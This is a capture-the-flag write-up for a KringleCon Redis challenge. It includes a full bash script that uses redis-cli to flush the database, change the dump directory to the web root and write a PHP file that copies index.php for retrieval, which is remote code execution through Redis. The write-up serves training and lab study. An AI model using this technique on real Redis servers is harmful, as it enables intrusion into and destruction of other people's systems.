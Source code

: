 # Redis Bug Hunt

**Elf**: Holly Evergreen<br/>
**Direct link**: [redis terminal](https://docker2020.kringlecon.com/?challenge=redis&id=3c930cbf-5e9a-4e51-b71a-67e9607ebb03)<br/>
**Objective**: [Broken Tag Generator](../objectives/o8.md)


## Request

!!! quote "Holly Evergreen"
    Hi, so glad to see you! I'm Holly Evergreen.<br/>
    I've been working with this Redis-based terminal here.<br/>
    We're quite sure there's a bug in it, but we haven't caught it yet.<br/>
    The maintenance port is available for curling, if you'd like to investigate.<br/>
    Can you check the source of the `index.php` page and look for the bug?<br/>
    I read something online recently about remote code execution on Redis. That might help!<br/>
    I think I got close to RCE, but I get mixed up between commas and plusses.<br/>
    You'll figure it out, I'm sure!


## Hints

??? hint "Redis RCE"
    [This](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) is kind of what we're trying to do...


## Solution

??? abstract "Welcome message"
    ```text
    We need your help!!

    The server stopped working, all that's left is the maintenance port.

    To access it, run:

    curl http://localhost/maintenance.php

    We're pretty sure the bug is in the index page. Can you somehow use the
    maintenance page to view the source code for the index page?
    ```

The solution is based on the Webshell example in the [Redis pentesting guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) provided by Holly Evergreen. We need to trick Redis into creating a PHP script in the web server root folder that reads and writes the contents of `index.php` to a non-PHP file (so we can retrieve it without the contents being parsed by the PHP interpreter). 

We could use the suggested `curl` approach, but then we'd need to URL-encode any special characters so they are properly parsed by the `maintenance.php` script before being forwarded to the `redis-cli` command line tool. Since `/etc/redis/redis.conf` contains the password in cleartext anyway (i.e., *R3disp@ss*), we can use `redis-cli` directly instead.

!!! note "Redis DB compression"
    Ensure that `rdbcompression` is disabled in `/etc/redis/redis.conf`. Saving the Redis database to disk with compression enabled will also compress the PHP code stored inside the DB, making the code unreadable for the PHP interpreter and preventing the PHP instructions from being executed.

To automate the process create a [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script containing the following commands.

```bash linenums="1"
#!/usr/bin/env bash

# Redis password from /etc/redis/redis.conf
RP='R3disp@ss'

# PHP code to copy /var/www/html/index.php to /var/www/html/f.txt
PHP="<?php file_put_contents('f.txt', file_get_contents('index.php')); ?>"

echo -n "Delete all keys from all databases: "
redis-cli --raw -a $RP flushall 2>/dev/null

echo -n "Disable Redis DB compression to leave PHP code as-is: "
redis-cli --raw -a $RP config set rdbcompression no 2>/dev/null

echo -n "Set output folder to /var/www/html/ web server root: "
redis-cli --raw -a $RP config set dir /var/www/html 2>/dev/null

echo -n "Set the DB filename to redis_rce.php: "
redis-cli --raw -a $RP config set dbfilename redis_rce.php 2>/dev/null

echo -n "Create 'rce' key containing PHP code: "
redis-cli --raw -a $RP set rce "$PHP" 2>/dev/null

echo -n "Save Redis DB to /var/www/html/redis_rce.php: "
redis-cli --raw -a $RP save 2>/dev/null

echo "Execute 'redis_rce.php' via GET request."
curl http://localhost/redis_rce.php 2>/dev/null

echo "Download http://localhost/f.txt"
curl http://localhost/f.txt --output f.txt 2>/dev/null

echo "Display f.txt"
cat -A f.txt
```

Execute the [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script on the host to find the bug. :scream:

![Bug found](../img/hints/h8/bug_found.png)


## Response

!!! quote "Holly Evergreen"
    See? I knew you could to it!<br/>
    I wonder, could we figure out the problem with the Tag Generator if we can get the source code?<br/>
    Can you figure out the path to the script?<br/>
    I've discovered that enumerating all endpoints is a really good idea to understand an application's functionality.<br/>
    Sometimes I find the Content-Type header hinders the browser more than it helps.<br/>
    If you find a way to execute code blindly, maybe you can redirect to a file then download that file?
